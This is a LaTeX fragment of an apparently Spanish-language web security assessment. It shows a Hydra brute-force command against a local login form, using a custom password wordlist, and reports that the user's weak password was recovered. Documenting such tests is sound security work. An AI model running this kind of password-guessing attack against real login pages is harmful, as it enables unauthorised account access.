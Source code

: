 \documentclass{report}
\begin{document}
                \clearpage
                Con el diccionario creado, vamos a realizar el ataque de fuerza bruta.
                Para ello, como he comentado, usaremos la herramienta Hydra.
                \begin{center}
                    \texttt{hydra -l ImanolMM -P imanol.txt localhost -s 81 http-post-form "/submit.php:nombre=\&telefono=\&dni=\&email=\&nacimiento=\&\\usuario=\^USER\^ \&passwd=\^PASS\^ \&tiporegistro=signin:Usuario o contraseña incorrecta"}
                \end{center}
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.3.png}
                    \caption{Ataque de fuerza bruta}
                \end{figure}
                Como podemos ver, el ataque ha sido exitoso y hemos obtenido la contraseña del usuario.
                Obviamente, este ataque ha sido muy sencillo ya que se utiliza contraseñas muy débiles, pero nos sirve para ver que es posible realizar este tipo de ataques.
                \clearpage
        \section{Componentes vulnerables y obsoletos}
\end{document}
